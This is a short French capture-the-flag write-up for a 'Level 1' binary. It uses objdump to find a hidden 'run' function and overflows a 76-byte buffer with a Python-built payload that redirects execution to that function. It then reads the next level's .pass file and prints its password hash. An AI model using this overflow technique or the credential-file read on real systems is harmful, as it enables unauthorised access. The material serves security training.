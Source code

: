 ## Level 1

On fait un `objdump -d  ~/level1`.

On appercoit `main`, mais aussi `run`.
```
> objdump -d  ~/level1
[...]
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
[...]
08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
```

L'addresse de run est `0x08048444`
En little-endian, l'addresse est `\x44\x84\x04\x08`.

Dans le code C, on se rend compte qu'il ne peut y avoir que 76 octet alloués. Il y a donc un **segault** à partir de `76` caractères.

On peut donc faire:
```
> python -c 'print "A"*76 + "\x44\x84\x04\x08"' > /tmp/hack1
> cat /tmp/hack1 - |  ./level1
[...]
Good... Wait what?
cat /home/user/level2/.pass
[...]
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
``` 

Dans notre fichier `hack1`, on a donc 76 caractères A + l'adresse de run.

Ensuite, on a envoyé notre fichier sur l'entrée standard de `level1` et avec le flag `-` de `cat`. On peut entrer la commande nous permettant d'obtenir le flag.

